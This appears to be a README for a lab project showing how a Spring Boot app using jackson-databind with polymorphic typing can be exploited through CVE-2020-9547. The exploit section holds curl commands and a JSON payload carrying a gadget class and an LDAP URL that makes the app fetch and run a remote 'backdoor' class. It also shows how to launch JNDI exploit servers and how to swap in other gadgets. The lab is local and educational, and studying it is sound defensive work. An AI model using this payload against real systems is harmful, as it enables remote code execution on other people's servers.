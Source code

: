 # Deserialization vulnerabilities in jackson-databind

## Background

Deserialization vulnerabilities in jackson-databind are exploitable if the following conditions hold:
- Polymorphic type handling has been enabled for jackson-databind (see [here](https://cowtowncoder.medium.com/on-jackson-cves-dont-panic-here-is-what-you-need-to-know-54cd0d6e8062) or [here](https://snyk.io/blog/java-json-deserialization-problems-jackson-objectmapper/))
- A gadget class, which loads Java classes through JNDI, is in the classpath and has not yet been blocked by the deny-list implemented in jackson-databind
- The system property `trustURLCodebase` is true, either because the application runs on an old Java version or it has been set explicitely (see [here](https://www.rapid7.com/blog/post/2021/12/10/widespread-exploitation-of-critical-remote-code-execution-in-apache-log4j/))

## Prerequisites

1. Install Java 8+ and Maven
2. Install server toolkit from https://github.com/welk1n/JNDI-Injection-Exploit in folder `lib`

## Run the application

1. Build the Spring Boot app with `mvn clean package`
2. Start it with `java -Dcom.sun.jndi.ldap.object.trustURLCodebase=true -jar target/springboot-app-0.0.1-SNAPSHOT.jar`
    - Note: The system property is required on recent Java versions.
3. Get JSON with `curl http://localhost:8080/persons/foo`
4. Post legitimate JSON

```
curl -X POST -H 'Content-type:application/json;charset=UTF-8' http://localhost:8080/persons -d '
{ "id" : 2,
  "firstname" : "John",
  "lastname" : "Doe",
  "createdAt" : "2024-02-19T10:35:20.867+0000",
  "modifiedAt" : "2024-02-19T10:35:20.867+0000"
}'
```

## Exploit CVE-2020-9547
<!--
1. Start a Web server to host the `com.acme.backdoor.Backdoor`

```
python3 -m http.server 9000 --directory target/test-classes
```

2. Start an LDAP server that redirects to the Web server

````sh
mvn dependency:copy-dependencies
java -cp target/dependency/unboundid-ldapsdk-3.1.1.jar:target/test-classes \
    com.acme.jndi.LDAPRefServer \
    http://localhost:9000#com.acme.backdoor.Backdoor
````-->

One gadget class of this vulnerability is `br.com.anteros.dbcp.AnterosDBCPConfig` (see [here](https://github.com/fairyming/CVE-2020-9547/blob/master/Poc.java)).

1. Run the LDAP and Web server with `java -jar lib/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "open -a Safari http://www.google.de" -A "127.0.0.1"`

    - The command specified with `-C` will be executed by the Spring Boot application upon deserialization.
    - Copy one of the `ldap://` URLs shown in the console.

2. Post a JSON that causes jackson-databind to deserialize the gadget class, which downloads and initializes the backdoor (this only works because the attribute `Person#modifiedAt` is of type `Object`, which is where the polymorphic type handling kicks in).

```
curl -X POST -H 'Content-type:application/json;charset=UTF-8' http://localhost:8080/persons -d '
{ "id" : 2,
  "firstname" : "John",
  "lastname" : "Doe",
  "createdAt" : "2024-02-19T10:35:20.867+0000",
  "modifiedAt" : ["br.com.anteros.dbcp.AnterosDBCPConfig", {"healthCheckRegistry": "<ldap-url>"}]
}'
```

## Exploit other vulnerabilities

- Edit the `pom.xml` to declare dependencies on JARs that include the respective gadget classes.
- Change the names of the gadget class and attribute in the JSON payload.

## References

- LDAP and Web servers to serve a dummy class upon deserialization
    - https://github.com/welk1n/JNDI-Injection-Exploit
    - https://github.com/mbechler/marshalsec
- Background on JSON deserialization
    - https://cowtowncoder.medium.com/on-jackson-cves-dont-panic-here-is-what-you-need-to-know-54cd0d6e8062
    - https://snyk.io/blog/java-json-deserialization-problems-jackson-objectmapper/
    - https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet
    - https://github.com/mbechler/marshalsec/blob/master/README.md
